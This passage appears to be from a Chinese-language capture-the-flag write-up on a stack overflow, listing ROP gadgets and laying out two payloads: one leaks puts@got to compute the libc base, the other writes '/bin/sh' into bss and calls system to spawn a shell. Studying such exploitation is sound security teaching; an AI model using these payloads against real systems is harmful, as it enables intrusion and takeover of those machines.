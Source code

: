 ```
0x000000000040127f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401283 : pop rdi ; ret
0x0000000000401281 : pop rsi ; pop r15 ; ret
0x000000000040127d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040105b : sar edi, 0xff ; call qword ptr [rax - 0x5e1f00d]
0x000000000040129d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040129c : sub rsp, 8 ; add rsp, 8 ; ret
0x0000000000401010 : test eax, eax ; je 0x401016 ; call rax
0x00000000004010e3 : test eax, eax ; je 0x4010f0 ; mov edi, 0x404040 ; jmp rax
0x0000000000401125 : test eax, eax ; je 0x401130 ; mov edi, 0x404040 ; jmp rax
0x000000000040100f : test rax, rax ; je 0x401016 ; call rax

Unique gadgets found: 66
```

偏移量可以直接从ghidra中读出，为`0x38`则我们可构造如下的payload：

|       Addr       |        Content         |
| :--------------: | :--------------------: |
|     buf[48]      | padding of length 0x30 |
|       rbp        |        padding         |
|     ret_addr     |        rdi_ret         |
|       arg1       |        puts@got        |
|  function call   |        puts@plt        |
| next instruction |       entry_addr       |

上述payload的效果为使得main函数在执行完后跳转到`rdi_ret`的地址继续执行，此时rsp指向我们布置在栈上的arg1，`pop rdi; ret`将`puts@got`存放到`rdi`中，然后跳转到`puts`的地址，最终的执行效果以`puts@got`为参数调用puts，即将`puts@got`处存放的内容以字符串的形式打印出来。`puts@got`中存放的是puts函数在libc中实际的地址，而我们知道puts在libc中的相对偏移，于是我们以这样的方式可以求得libc的基址，于是可以获知libc中所有函数的地址。puts执行完后将返回我们写在栈上的`entry_addr`，即从头开始执行程序，于是我们可以开始下一步的利用。

我们希望调用`system("/bin/sh\x00")`来getshell， 除了利用libc中现成的地址之外，我们也可以向bss段中的某个位置写入"/bin/sh\x00"，然后将该地址作为参数调用system。这里选用后一种方法。构造如下payload。

|       Addr       |        Content         |
| :--------------: | :--------------------: |
|     buf[48]      | padding of length 0x30 |
|       rbp        |        padding         |
|     ret_addr     |        rdi_ret         |
|       arg1       |       bss+0x100        |
|  function call   |        gets@plt        |
| next instruction |        rdi_ret         |
|       arg1       |       bss+0x100        |
|  function call   |         system         |
